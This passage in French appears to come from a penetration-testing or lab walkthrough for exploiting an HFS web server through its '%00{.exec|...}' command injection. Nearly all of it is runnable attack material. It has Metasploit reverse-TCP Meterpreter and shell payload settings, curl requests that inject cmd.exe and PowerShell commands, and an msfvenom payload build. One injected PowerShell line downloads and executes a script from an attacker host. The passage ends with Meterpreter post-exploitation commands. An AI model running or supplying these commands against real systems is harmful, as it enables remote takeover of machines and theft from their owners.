 #### Meterpreter Windows x64
```bash
# Pour les systèmes 64 bits
set payload windows/x64/meterpreter/reverse_tcp
set LHOST attacker_ip
set LPORT 4445
exploit
```

#### Shell Reverse TCP
```bash
# Shell classique si Meterpreter échoue
set payload windows/shell/reverse_tcp
set LHOST attacker_ip
set LPORT 4446
exploit
```

### Exploitation Manuelle

#### Test de Vulnérabilité
```bash
# Test d'injection de commandes basique
curl "http://target_ip:80/?search=%00{.exec|cmd.exe /c echo vulnerable.}"

# Test avec powershell
curl "http://target_ip:80/?search=%00{.exec|powershell -c echo vulnerable.}"
```

#### Payload Manuel
```bash
# Génération d'un payload Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f exe -o payload.exe

# Upload du payload via HFS (si upload disponible)
# Ou utilisation directe dans l'injection
curl "http://target_ip:80/?search=%00{.exec|powershell -c \"IEX(New-Object Net.WebClient).DownloadString('http://attacker_ip:8000/payload.ps1')\".}"
```

## Post-Exploitation avec Meterpreter

### Commandes de Base
```bash
# Vérifier la session active
sessions -l

# Interagir avec la session
sessions -i 1

# Informations système
sysinfo
getuid
getpid

# Informations réseau
ipconfig
route
arp
```
